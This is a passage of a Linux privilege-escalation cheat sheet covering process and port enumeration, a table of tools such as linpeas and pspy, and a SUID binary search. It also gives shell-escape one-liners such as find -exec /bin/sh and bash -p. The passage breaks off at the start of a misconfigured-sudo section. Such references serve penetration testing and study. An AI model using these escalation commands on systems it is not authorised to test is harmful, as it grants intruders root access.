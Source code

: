 #### ⚙️ Process & Service Enumeration

```bash
ps aux | grep root
ss -tuln
netstat -tuln
lsof -i
```

#### 🧰 Useful Tools

| Tool                        | Purpose                                   |
| --------------------------- | ----------------------------------------- |
| `linpeas.sh`                | Automated PrivEsc enumeration.            |
| `pspy`                      | Process monitor without root.             |
| `linux-exploit-suggester`   | Kernel & local exploit suggestions.       |
| `enum4linux`                | Network enumeration.                      |
| `lshell`, `bash`, `sudo -l` | Command restriction and privilege checks. |

***

### III. ⚙️ Common Privilege Escalation Vectors

***

#### 1. 🧩 SUID / SGID Abuse

**🔍 Find SUID Binaries**

```bash
find / -perm -4000 2>/dev/null
```

**🔓 Exploit Examples**

```bash
/usr/bin/find . -exec /bin/sh \; -quit
/usr/bin/vim -c ':!/bin/sh'
/bin/bash -p
```

Check [GTFOBins](https://gtfobins.github.io/) for any binary that allows shell escape.

***

#### 2. ⚙️ Misconfigured `sudo`

**🔍 Check Permissions**

```bash
sudo -l
```

**🔓 Exploits**
